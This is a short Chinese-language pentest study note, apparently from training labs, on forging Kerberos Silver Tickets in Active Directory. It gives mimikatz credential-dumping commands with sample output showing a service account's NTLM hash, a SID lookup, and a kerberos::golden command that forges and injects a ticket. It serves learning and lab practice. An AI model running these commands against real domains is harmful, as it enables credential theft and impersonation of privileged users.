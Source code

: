 為甚麼Silver Tickets可以登入呢? 因為登入Windows的方式有很多種，像是WinRM/WSMan 底層都是走http的，所以取得`http/dcorp-dc.dollarcorp.moneycorp.local`也是可以登入的，另外在 AD 裡，電腦預設就註冊一些通用的 SPN，像：
```
HOST/dcorp-dc
HTTP/dcorp-dc
LDAP/dcorp-dc
CIFS/dcorp-dc
```
這些 SPN 都是由「該機器的帳號」(Machine account) 提供的服務，所以要用這些帳號必須要使用Machine Account，畢竟Silver Tickets是用服務本身的帳號的hash簽的
常見的可利用組合有 :
- **HTTP Service** : HTTP + Machine Account
- **WMI Service**: (HOST + Machine Account) + (RPCSS + Machine Account)
- 可參考本篇打法[Write-Up](https://medium.com/@0xrave/nagoya-proving-grounds-practice-walkthrough-active-directory-bef41999b46f)

>需先利用mimikatz找出spn帳號的相關資訊，才可以製作
###  mimikatz
```
mimikatz privilege::debug
```
```
mimikatz sekurlsa::logonpasswords
```
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1147751 (00000000:00118367)
Session           : Service from 0
User Name         : iis_service
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 4:52:14 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1109
        msv :
         [00000003] Primary
         * Username : iis_service
         * Domain   : CORP
         * NTLM     : 4d28cf5252d39971419580a51484ca09
         * SHA1     : ad321732afe417ebbd24d5c098f986c07872f312
         * DPAPI    : 1210259a27882fac52cf7c679ecf4443
...
```
- 取得SID
```
whoami /user
```
```
PS C:\Users\jeff> whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
```
- 產出銀票眷
```
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
- 檢查